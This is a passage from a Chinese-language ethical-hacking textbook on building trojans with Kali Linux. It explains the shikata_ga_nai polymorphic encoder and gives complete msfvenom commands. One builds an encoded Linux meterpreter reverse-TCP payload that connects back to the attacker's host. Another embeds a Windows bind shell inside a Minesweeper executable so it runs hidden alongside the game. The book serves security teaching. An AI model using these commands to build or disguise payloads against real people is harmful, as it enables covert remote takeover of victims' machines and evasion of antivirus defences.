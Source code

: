 *图 10-9：使用 SGN 编码器编码字节的过程*

SGN 编码器通过使用额外的算术运算（加法和减法）来计算初始化向量，从而进一步复杂化了逆向工程过程。

SGN 编码器通常被称为*多态编码器*。多态编码器每次运行时都会生成一个新的签名，只要黑客选择一个新的初始化向量，并运行编码器多个迭代。以下命令生成一个 SGN 编码的有效载荷；记得将 `<Kali-IP>` 替换为你 Kali Linux 机器的 IP 地址：

```
kali@kali:~/Desktop/Malware/$ sudo msfvenom -a x86 --platform linux -p linux/x86/meterpreter/

			 reverse_tcp LHOST=<Kali IP address> LPORT=443 ➊ --encoder x86/shikata_ga_nai -i 4 -f

			 elf -o malicious

[sudo] password for kali:
Found 1 compatible encoders
Attempting to encode payload with 4 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 150 (iteration=0)
x86/shikata_ga_nai succeeded with size 177 (iteration=1)
x86/shikata_ga_nai succeeded with size 204 (iteration=2)
x86/shikata_ga_nai succeeded with size 231 (iteration=3)
x86/shikata_ga_nai chosen with final size 231 Payload size: 231 bytes
Final size of elf file: 315 bytes
Saved as: malicious
```

我们已经使用 `--encoder` 选项指定了 SGN 编码器 ➊。

### **创建一个 Windows 木马**

到目前为止，我们讨论了如何为 Linux 创建一个木马。创建 Windows 木马的过程类似，你也可以使用 `msfvenom` 来实现。我们将介绍两种隐藏植入的方法：通过 Humaeed Ahmed 的 Minesweeper 游戏的一个有趣的开源实现，以及通过使用社会工程工具包（稍后将详细讲解）。

#### ***在扫雷游戏中隐藏木马***

我已经分叉了 Ahmed 的库，你可以通过以下链接下载可执行文件：[`github.com/The-Ethical-Hacking-Book/Minesweeper/blob/master/Minesweeper/bin/Debug/Minesweeper.exe`](https://github.com/The-Ethical-Hacking-Book/Minesweeper/blob/master/Minesweeper/bin/Debug/Minesweeper.exe)*。将其保存到你 Kali 桌面上的*恶意软件*文件夹中。

**注意**

*你信任这个可执行文件吗？现在你开始像黑客一样思考了。这个库还包含了需要自己构建的源代码，如果你不信任我，可以自己构建。*

在下载了可执行文件后，使用 `msfvenom` 通过运行以下命令将其转换为恶意 Trojan：

```
kali@kali:~/Desktop/Malware/$ msfvenom -a x86 --platform windows -x program.

			 exe -k -p windows/shell/bind_tcp -e x86/shikata_ga_nai lhost=<Kali IP

			 address>-f exe -o evilProgram.exe
```

在这里，`-e` 标志指定我们将使用之前讨论过的 SGN 编码器。许多选项与我们第一次运行 `msfvenom` 时相同，唯一的例外是 `-k` 标志，它告诉 `msfvenom` 保持程序的常规执行，并在一个单独的线程中运行有效载荷。你不需要记住这些选项；你可以通过运行 `msfvenom` 并加上 `**--help**` 选项来查看它们的文档：

```
kali@kali:~/Desktop/Malware/$ msfvenom --help
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f

			 exe -o payload.exe

Options:

    -l, --list <type> List all modules for [type]. Types are: payloads,

			 encoders, nops, platforms, archs, encrypt, formats, all
```